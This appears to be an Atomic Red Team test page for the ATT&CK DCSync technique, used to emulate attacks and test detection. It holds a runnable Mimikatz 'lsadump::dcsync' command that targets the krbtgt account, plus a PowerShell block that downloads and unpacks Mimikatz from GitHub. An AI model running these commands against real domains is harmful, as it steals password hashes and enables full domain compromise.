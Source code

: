 # T1003.006 - DCSync
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)
<blockquote>Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)


<br/>

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | string | example.com|
| user | Targeted user | string | krbtgt|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
